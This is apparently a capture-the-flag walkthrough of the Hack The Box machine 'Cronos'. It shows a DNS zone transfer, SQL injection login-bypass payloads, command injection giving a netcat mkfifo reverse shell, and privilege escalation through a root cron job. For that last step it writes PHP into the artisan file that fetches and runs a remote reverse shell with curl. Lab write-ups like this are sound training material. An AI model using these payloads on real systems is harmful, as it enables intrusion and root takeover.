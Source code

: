 ```yaml
---
title: Cronos
tags: linux
---
```


![image](assets/79369967-d6a3e380-7f1f-11ea-95c4-5bcb116f5c27.png)

## Overview

Cronos is an Ubuntu box running Apache hosting a few different websites. I was able to determine the dns zone that the box was hosting and perform a zone transfer which gave me information about which websites it was hosting. From there some additional enumeration uncovered an admin page that was vulnerable to SQLi, allowing me to bypass the login form. This allowed access to the "Net Tool v0.1" page which was exploited to execute operating system commands and create a reverse shell as www-data. Running LinEnum showed that a cron job was running as root and that an unprivileged user had access to write to a file called artisan. Leveraging write access to the file, I copied a command that created a reverse shell as user root.

## Enumeration

**Software**

* Ubuntu 16.04.2 LTS
* ISC BIND 9.10.3-P4-Ubuntu
* OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
* Apache httpd 2.4.18 ((Ubuntu))
* laravel 5.4.16 https://github.com/laravel/laravel - released May 14, 2017
* Sudo version 1.8.16                                                                                                                                                  
* mysql  Ver 14.14 Distrib 5.7.17

**Port Scan**

```
nmap -vv -sT -A -p- 10.10.10.13 -oN /mnt/data/boxes/cronos/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 53/tcp - dns
* 80/tcp - http

**Directory/File Brute Force**

```
gobuster dir -u http://cronos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 10 -x php,html
```

* /index.php 
* /css
* /js

```
gobuster dir -u http://www.cronos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 10 -x php,html
```

* /index.php 
* /css
* /js

```
gobuster dir -u http://admin.cronos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 10 -x php,html
```

/index.php
/welcome.php
/logout.php
/config.php 
/session.php

**DNS Info**

Reverse DNS Lookup

```
dig a 13.10.10.10.in-addr.arpa @10.10.10.13
```

![image](assets/80645603-60cc6b80-8a39-11ea-8aec-8030e946727c.png)

Zone Transfer

```
dig axfr 10.10.10.13 @1.2.3.4
```
* cronos.htb
* admin.cronos.htb
* www.cronos.htb

## Steps (User)

When I see port 53/dns open on the target I usually try a zone transfer. The first step was to determine the name of the zone which can be done by guessing (I see boxname.htb a lot) or by doing a reverse dns lookup. I chose the latter method and confirmed that zone cronos.htb was being hosted on the box. I was then able to use dig to do a zone transfer, showing all the records for the cronos.htb zone.

![image](assets/80645146-b94f3900-8a38-11ea-8aac-c47510ad08bb.png)

Using virtual hosts, different sites can be hosted on the same server. The server routes the request to the appropriate site based on the host header specified in the request. To facilitate this I updated /etc/hosts so I could browse to the site by name.

```
10.10.10.13     cronos cronos.htb admin.cronos.htb www.cronos.htb
```

admin.cronos.htb and www.cronos.htb pointed to the same site and all the links were to external websites. The source code also didn't show anything of use. The links to indicate that the site runs on laravel but I was unable to determine the version. I took note of this and moved on to admin.cronos.htb. 

![image](assets/80649578-4fd32880-8a40-11ea-8e93-24615e2b866d.png)

Browsing to admin.cronos.htb showed a username and password form. The source code didn't disclose anything that would've help me log in so I started going through my list of common SQL injection tests.

User Name | Password | SQL Query
:---: | :---: | :---
| user | user | SELECT * FROM users WHERE name='user' and password='user' |
| user | ' or '1'='1 | SELECT * FROM users WHERE name='user' and password='' or '1'='1' |
| user | ' or 1='1  | SELECT * FROM users WHERE name='user' and password='' or '1'='1' |
| user | 1' or 1=1 -- - | SELECT * FROM users WHERE name='user' and password='' or 1=1-- -' |
| ' or '1'='1 | ' or '1'='1 | SELECT * FROM users WHERE name='' or '1'='1' and password='' or '1'='1' |
| ' or ' 1=1 | ' or ' 1=1 | SELECT * FROM users WHERE name='' or ' 1=1' and password='' or ' 1=1' |
| 1' or 1=1 -- - | blah | SELECT * FROM users WHERE name='1' or 1=1 -- -' and password='blah'|

Trying _1' or 1=1 -- -_ for the username worked and brought me to a page called "Net Tool v0.1" which allows user input to run traceroute and ping commands. As a test I pinged my machine.

![image](assets/80649146-7775c100-8a3f-11ea-8edb-cba7d485ce0b.png)

This page is actually running system commands in the background and displaying the results. It turns out I can just paste a command directly into the text field to get a reverse shell as www-data. 

![image](assets/80741013-f540d780-8ae6-11ea-934b-ee95f8ea57ab.png)

I set up a netcat listener (nc -lvnp 4200) and input the command.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 4200 >/tmp/f 
```

![image](assets/80741115-202b2b80-8ae7-11ea-90a4-1309ca385a66.png)

## Steps (root/system)

I used a script called LinEnum.sh to do some additional enumeration and transferred it to the target box.

> [LinEnum](https://github.com/rebootuser/LinEnum) github repo

I copied LinEnum to my working directory and started a python http server in preperation to transfer the file.

```
cp ~/tools/LinEnum/LinEnum.sh le.sh
python3 -m http.server 80
```

On the target I used wget to download the file,  made the file executable, and ran it.

```
wget http://10.10.14.22/le.sh
chmod +x le.sh && ./le.sh
```

The LinEnum results showed something interesting under _[-] Crontab contents:_. The box name being "cronos" is a pretty big hint and is an indication I'm on the right path. The job ran a php file as root every minute.

![image](assets/80748836-933a9f00-8af3-11ea-90e5-f156a0c59615.png)

```
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Looking at the permissions of the /var/www/laravel/artisan showed that user www-data can write to this file. This meant that I could write data to the artisan file and have it be executed as root.

I copied the php reverse shell to my working directory, updated it with my box's port/IP, and started a netcat listener on a new port (nc -lvnp 4201).

```
cp ~/tools/webshells/php/php-reverse-shell.php rshell.php
nc -lvnp 4201
```

With my python http server still running, I echo'd a php command to the artisan file. The command downloaded rshell.php from my box (the reverse shell) and executed it.
```
echo "<?php system('curl http://10.10.14.22/rshell.php | php') ?>" > /var/www/laravel/artisan
```
Once executed on the target I received a callback and shell as root.

![image](assets/80750548-4906ed00-8af6-11ea-8943-95e433b5e519.png)

